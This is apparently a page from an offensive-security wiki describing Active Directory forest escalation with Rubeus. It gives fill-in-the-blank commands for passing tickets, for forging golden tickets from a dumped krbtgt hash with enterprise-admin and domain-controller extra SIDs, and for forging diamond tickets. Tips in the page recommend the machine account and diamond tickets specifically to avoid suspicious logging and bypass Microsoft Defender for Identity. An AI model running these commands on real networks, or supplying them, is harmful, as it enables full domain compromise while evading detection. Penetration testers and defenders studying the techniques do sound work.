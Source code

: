 And use it

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /service:<$Service> /dc:<$DC> /ptt /ticket:<$Ticket>
```
{% endcode %}

### Using the krbtgt hash - Golden

After dumping the krbtgt hash of the child domain a golden ticket can be forged

{% hint style="info" %}
For extra SIDs:

* -519 is enterprise admin
{% endhint %}

{% code overflow="wrap" %}
```powershell
./Rubeus.exe golden /user:Administrator /id:500 /domain:<$Child domain> /sid:>$Child SID> /groups:513 /aes256:<$aes>/sids:<$Extra SIDs> /ptt
```
{% endcode %}

And you can now enter the session with the ticket

{% hint style="warning" %}
Using the machine account instead of the administrator one to forge the ticket will avoid suspicious loggin from the MDI
{% endhint %}

{% hint style="info" %}
For extra SIDs:

* -516 is Domain Controller
* -512 if it's another child (not forest root)
* S-1-5-9 is Enterprise Domain Controller
{% endhint %}

{% code overflow="wrap" %}
```powershell
./Rubeus.exe golden /user:<dc$> /id:1000 /domain:<$Child domain> /sid:>$Child SID> /groups:513 /aes256:<$aes>/sids:<$Extra SIDs> /ptt
```
{% endcode %}

### Using the krbtgt hash - Diamond

A diamond inter-realm ticket will avoid suspicious logs and bypass MDI in the child and parent domain, even more than DCSync from machine account

{% code overflow="wrap" %}
```powershell
./Rubeus.exe diamond /krbkey:<$krbtgt aes> /tgtdeleg /enctype:aes /ticketuser:<$DC machine account> /domain:<$Child> /dc:<$DC> /ticketuserid:1000 /sids:<$Extra SIDs> /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}
